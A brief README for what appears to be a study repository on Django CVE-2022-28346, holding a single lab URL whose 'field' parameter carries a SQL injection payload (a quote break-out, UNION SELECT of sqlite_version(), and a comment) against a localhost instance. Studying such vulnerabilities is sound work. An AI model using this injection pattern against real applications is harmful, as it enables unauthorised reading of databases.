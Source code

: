 # django-rdb-study

```
# cve 2022 28346
http://localhost:8000
http://localhost:8000/demo?field=demo.name" FROM "demo_user" union SELECT "1",sqlite_version(),"3" --
```